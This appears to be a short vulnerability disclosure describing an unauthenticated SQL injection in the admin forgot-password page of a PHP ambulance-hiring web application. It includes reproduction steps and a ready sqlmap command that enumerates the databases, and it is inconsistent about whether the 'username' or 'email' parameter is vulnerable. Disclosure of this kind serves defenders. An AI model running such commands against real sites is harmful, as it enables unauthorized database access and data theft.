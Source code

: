 ## Emergency Ambulance Hiring Portal 

**Bug Description:**

A vulnerability has been found in Emergency Ambulance Hiring Portal 1.0 and classified as critical. It has an SQL injection vulnerability in "/admin/forgot-password.php" endpoint. The manipulation of the parameter "username" leads to SQL injection. Remote attackers can leverage this vulnerability to manipulate a web application's SQL query by injecting malicious SQL code. This can lead to unauthorized access to databases, data theft, data manipulation, and other malicious activities.


Steps to Reproduce:

```
# Exploit Title: Unauthenticated SQL Injection in Forgot Password Page of Emergency Ambulance Hiring Portal 
# Date: 28-03-2024
# Exploit Author: dhabaleshwardas
# Vendor Homepage: https://phpgurukul.com/
# Software Link: https://phpgurukul.com/emergency-ambulance-hiring-portal-using-php-and-mysql/
# Version: 1.0
# Tested on: firefox/chrome/brave
# CVE:
```

To exploit the vulnerability:

1- First visit the admin login endpoint http://localhost/eahp/admin/forgot-password.php .

2- Capture the request after entering random "email" and "mobile number" and save it in a file. Then using the below command on SQLmap, we can fetch the databases as "email" parameter is vulnerable to SQL injection.

python sqlmap.py -r request.txt -p username --ignore-code 401 --level 5 --risk 2 --batch --dbs


<img width="763" alt="sqli forgot pass" src="https://github.com/dhabaleshwar/Open-Source-Vulnerabilities/assets/132373212/93b2e717-dc25-43b2-b7ed-ca525420a82a">
